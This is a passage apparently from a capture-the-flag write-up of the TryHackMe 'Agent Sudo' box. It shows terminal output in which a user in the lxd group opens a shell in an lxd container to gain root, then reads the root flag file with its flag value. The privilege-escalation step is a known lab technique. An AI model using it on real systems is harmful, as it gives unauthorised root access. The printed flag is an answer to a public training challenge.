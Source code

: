 uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@agent-sudo:/mnt$ lxc exec yolo /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cat /mnt/root/root/root.txt

To Mr.hacker,
Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 
Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
~ #

{% endhighlight %}
